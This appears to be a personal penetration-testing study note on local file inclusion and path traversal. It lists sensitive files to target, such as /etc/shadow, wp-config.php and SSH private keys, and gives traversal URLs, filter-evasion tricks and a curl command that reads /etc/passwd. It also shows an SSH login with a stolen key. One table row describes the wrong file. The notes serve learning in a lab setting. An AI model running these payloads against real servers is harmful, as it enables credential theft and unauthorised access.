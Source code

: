 #execusion #webapp 

[[Lessons Learned]]

#### WordPress Config file 

```bash
wp-config.php
```

#### SSH Private Keys

1. First check the **/etc/passwd** 

```bash
/home/user/.ssh/id_rsa
```

```bash
chmod 600 id_rsa
```

```bash
ssh -i id_rsa daniela@192.168.50.244
```

#### Example 


http://webapp.thm/get.php?file=../../../../boot.ini


| Location|Description| 
|------------ | ------------| 
|/etc/issue | contains a message or system identification to be printed before the login prompt.| 
|/etc/profile | controls system-wide default variables, such as Export variables, File creation mask (umask), Terminal types, Mail messages to indicate when new mail has arrived|
|/proc/version | specifies the version of the Linux kernel| 
|/etc/passwd | has all registered user that has access to a system| 
|/etc/shadow |contains information about the system's users' passwords| 
|/root/.bash_history | contains a message or system identification to be printed before the login prompt.| 
|/var/log/dmessage| contains global system messages, including the messages that are logged during system startup| 
|/var/mail/root| all emails for root user| 
|/root/.ssh/id_rsa | Private SSH keys for a root or any known valid user on the server| 
|/var/log/apache2/access.log |the accessed requests for Apache  webserver| 
|C:\\boot.ini |contains the boot options for computers with BIOS firmware| 


#### Filter Evasion 

- %00, 0x00 , ./
- If the directory is restricted use that-directory/../../../../etc/passwd
- Add ? to make the rest as a seperate query
- URL encode 
```bash
curl http://192.168.243.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```


